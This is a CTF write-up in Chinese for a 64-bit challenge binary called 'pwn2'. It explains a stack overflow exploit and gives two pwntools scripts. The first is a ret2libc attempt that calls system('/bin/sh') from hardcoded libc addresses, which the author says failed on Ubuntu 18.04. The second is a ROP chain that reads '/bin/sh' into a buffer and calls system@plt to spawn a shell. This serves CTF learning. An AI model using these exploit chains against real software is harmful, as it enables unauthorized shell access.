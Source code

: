 一樣有 magic 函式，裡面變成`system('/bin/ls')`
但是我們想要的是 /bin/sh

binary中沒有 /bin/sh 可以去 .so 裡面找

![](https://i.imgur.com/1VAqHx9.png)

透過 ldd 發現是用 libc.so.6 (題目有給)

題目檔案是 64-bit
> pwn2: ELF 64-bit LSB executable, x86-64

可以利用 ret2libc 手法 搜集 pop_rdi_ret, binsh_addr, system_addr

![](https://i.imgur.com/bN75qUA.png)

> pop_rdi_ret 0x00000000004006d3

![](https://i.imgur.com/sKcGyCc.png)

> system_libc_addr 0x7ffff7a52390

> binsh_libc_addr 0x7ffff7b99d57


```python
from pwn import *
#p = remote('10.140.0.8', 11112)
p = process('./pwn2')
offset = 'a' * 16
target_addr = 0x04005f7
prr = p64(0x00000000004006d3)
binsh = p64(0x7ffff7b99d57)
system = p64(0x7ffff7a52390)

payload = offset + prr + binsh + system
p.sendline(payload)
p.interactive()
```


比賽時在local測試一直不行，找不出原因(ubuntu18.04)。
後來用16.04才發現local可以，但是也無法連到遠端測試了

---

ret2libc 行不通，因為不知道遠 libc 位置 ， 直接串 ROP即可

```python
from pwn import *

r = process("./pwn2")
elf = ELF('./pwn2')
context(arch='amd64')

offset = 'a'*16
pop_rsi_r15_ret = 0x4006d1
pop_rdi_ret = 0x4006d3

buf = 0x601100
print 'read@plt', hex(elf.plt['read'])
print 'system@plt', hex(elf.plt['system'])
payload = flat([
                offset,
                pop_rdi_ret,
                0,
                pop_rsi_r15_ret,
                buf,
                'a' * 8,
                elf.plt['read'],
                pop_rdi_ret,
                buf,
                elf.plt['system']
                ])
r.sendline(payload)
r.sendline("/bin/sh")
r.interactive()

```
